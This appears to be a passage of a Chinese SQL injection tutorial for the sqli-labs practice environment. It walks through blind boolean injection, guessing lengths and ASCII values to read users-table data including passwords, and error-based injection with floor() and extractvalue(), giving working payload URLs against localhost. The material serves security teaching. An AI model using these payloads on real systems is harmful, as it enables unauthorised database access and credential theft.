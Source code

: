 我们知道了users中有三个字段 id 、username 、password，我们现在爆出每个字段的数据
 
1: 判断数据的长度
// 判断id字段的第一个数据的长度
http://127.0.0.1/sqli/Less-5/?id=1' and length((select id from users limit 0,1))>5
 
// 判断id字段的第二个数据的长度
http://127.0.0.1/sqli/Less-5/?id=1' and length((select id from users limit 1,1))>5
2：判断数据的ascii值
// 判断id字段的第一个数据的第一个字符的ascii值
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select id from users limit 0,1),1,1))>100
 
// 判断id字段的第一个数据的第二个字符的ascii值
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select id from users limit 0,1),2,1))>100
...........

# 一般情况下我们也可以结合bp来爆破,最后通过ascii码来比对出我们想要的数据.

# SQL注入之报错注入

利用前提: 页面上没有显示位，但是需要输出 SQL 语句执行错误信息。比如 mysql_error()
优点: 不需要显示位
缺点: 需要输出 mysql_error( )的报错信息

## floor报错注入

floor报错注入是利用 count()函数 、rand()函数 、floor()函数 、group by 这几个特定的函数结合在一起产生的注入漏洞。缺一不可

// 我们可以将 user() 改成任何函数，以获取我们想要的信息。具体可以看文章开头关于information_schema数据库的部分
http://127.0.0.1/sqli/Less-1/?id=-1'  and (select 1 from (select count(*) from information_schema.tables group by concat(user(),
floor(rand(0)*2)))a) #
 
//将其分解
(select 1 from (Y)a)
 
Y= select count(*) from information_schema.tables group by concat(Z)
 
Z= user(),floor(rand(0)*2)

# ExtractValue报错注入

第一个参数：XML_document 是 String 格式，为 XML 文档对象的名称，文中为 Doc

第二个参数：XPath_string (Xpath 格式的字符串).

作用：从目标 XML 中返回包含所查询值的字符串

ps: 返回结果 限制在32位字符

// 可以将 user() 改成任何我们想要查询的函数和sql语句 ,0x7e表示的是 ~
http://127.0.0.1/sqli/Less-1/?id=-1'  and extractvalue(1,concat(0x7e,user(),0x7e))#
// 通过这条语句可以得到所有的数据库名，更多的关于informaion_schema的使用看文章头部
http://127.0.0.1/sqli/Less-1/?id=-1'  and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1)
,0x7e))#
